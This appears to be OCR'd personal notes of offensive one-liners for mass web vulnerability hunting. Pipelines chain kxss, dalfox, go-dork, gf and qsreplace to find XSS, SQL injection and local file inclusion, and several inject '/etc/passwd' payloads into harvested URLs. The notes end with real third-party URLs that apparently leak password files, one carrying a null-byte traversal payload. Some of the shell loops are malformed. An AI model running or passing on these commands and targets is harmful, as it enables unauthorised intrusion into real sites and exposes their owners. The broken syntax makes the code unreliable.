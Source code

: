 


XSS Mass with KXSS 

cat testphpwayback.txt| kxss | sed 's/=.*/=/' | sed 's/URL://' | sed 's/^ *//g' | dalfox pipe


cat testphpwayback.txt| kxss | sed 's/=.*/=/' | sed 's/URL: //'| dalfox pipe




Go Dorks - 

go-dork -q "php?id=1" -e duck -p 3 | tee -a sqler.txt | qsreplace '"' | while read host do;do curl --silent --insecure --path-as-is "$host" | grep "sql" | echo "$host";done













Shopify - 23.227.38.64

AWS - 

Tumblr - 














cat testphp.vulnweb.com | gf lfi | qsreplace "/etc/passwd" | while read host do;do curl --insecure -s "$host" | grep "root:";done


http://ftp.int.ru/etc/

http://www.malinovski.de/15/root/etc/passwd

http://www.dybedu.com/main/sub.php?goPage=/etc/passwd%00&menu_code=1
http://www.smelisting.net/corner_category.php?id=1522

http://www.licariautobodysupply.com/pricelist/userpwd.txt

















